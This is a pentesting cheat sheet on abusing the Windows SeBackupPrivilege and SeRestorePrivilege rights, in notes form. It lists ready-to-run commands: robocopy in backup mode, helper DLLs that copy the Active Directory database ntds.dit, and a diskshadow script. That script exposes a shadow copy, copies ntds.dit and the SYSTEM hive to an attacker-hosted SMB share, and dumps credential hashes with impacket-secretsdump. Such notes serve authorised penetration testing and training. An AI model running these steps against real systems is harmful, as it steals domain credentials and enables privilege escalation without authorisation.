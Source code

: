 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["SeBackupPrivilege", "SeRestorePrivilege", "privesc", "Windows", "Backup Operators", "diskshadow", "secretsdump"]
---
```


### Abuse #1: Robocopy

<div>

```console
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

</div>

<br>

---

### Abuse #2: Using helper dlls

<div>

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

</div>

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

<br>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

<div>

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

</div>

<br>

<div>

```console
# Convert to dos format
unix2dos vss.dsh
```

</div>

#### 2. Run vss.dsh

<div>

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

</div>

#### 3. Host a smb server (In Linux)

<div>

```console
impacket-smbserver share . -smb2support
```

</div>

#### 4. Copy to local Linux

<div>

```console
net use \\<LOCAL_IP>\share
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

</div>

#### 5. Secrets dump

<div>

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

</div>

<br>